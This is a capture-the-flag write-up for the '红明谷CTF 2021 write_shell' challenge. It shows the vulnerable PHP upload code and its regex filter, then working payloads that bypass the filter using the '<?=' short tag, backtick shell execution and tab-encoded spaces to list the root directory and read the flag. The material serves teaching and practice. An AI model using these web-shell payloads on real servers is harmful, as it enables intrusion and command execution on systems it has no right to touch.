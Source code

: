# [红明谷CTF 2021]write_shell
![](<./img/Pasted image 20230105095843.png>)

---
```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

`php`被过滤，使用`php`的`echo`标记简写`<?=`绕过

由于反引号`` ` ``没有被过滤，使用反引号来执行`shell`命令

空格被过滤，使用水平制表符`%09`代替

```php
/?action=pwd
```

```
sandbox/xxx/
```

```php
/?action=upload&data=<?=`ls%09/`?>
```

```php
/sandbox/xxx/
```

```
bin boot dev etc flllllll1112222222lag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var 
```

```php
/?action=upload&data=<?=`cat%09/flllllll1112222222lag`?>
```

```php
/sandbox/xxx/
```

```
flag{7fb04787-f42b-4b09-aceb-101738202f79} 
```
